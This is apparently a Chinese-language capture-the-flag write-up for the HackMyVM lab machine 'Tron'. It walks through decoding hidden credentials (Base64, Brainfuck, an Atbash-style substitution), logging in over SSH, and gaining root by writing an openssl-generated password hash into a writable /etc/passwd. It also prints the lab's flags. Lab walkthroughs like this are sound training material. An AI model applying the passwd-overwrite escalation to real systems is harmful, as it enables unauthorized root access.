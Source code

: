 # Tron

2024-11-14 https://hackmyvm.eu/machines/machine.php?vm=Tron

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先看 80 web 服务，首页无内容，查看 html 源码发现: kzhh:SbWP9q94ZtE9qD 像是 ssh 登陆的用户凭据，尝试登陆，发现不是，可能是这个 wen 系统的登录用户凭据。

对 web 目录进行扫描，在 http://192.168.5.40/MCP/ 中发现了内容 http://192.168.5.40/MCP/tron.txt

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me?


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

对最后的内容进行 base64 解码：

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

是 Brainfuck 编码，解码后内容为：

```
player
```

http://192.168.5.40/MCP/terminalserver/30513.txt 中发现了一个 rot 密码转换的提示，使用此转换方式解密 kzhh:SbWP9q94ZtE9qD

```
-------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

从 ciphertext 替换到 plaintext 只替换小写字母其他数字和大写字母不变：pass:SyWP9j94ZgE9jD

player:SyWP9j94ZgE9jD 登陆成功，得到 user flag：

```
player@tron:~$ cat user.txt
HMVMuserplayer2021
```

经过枚举，发现 /etc/passwd 文件可写，直接将 root 密码写入到其中:

```
openssl passwd -1 -salt new 456
$1$new$DEG4GSAwR8rsoc/FNKp0Q1

root:$1$new$DEG4GSAwR8rsoc/FNKp0Q1:0:0:root:/root:/bin/bash
```

root 的密码改成了 456 直接切换到 root 读取 root flag：

```
root@tron:~# ls
root.txt
root@tron:~# cat root.txt
HMVMMasterControlProgram2021
```
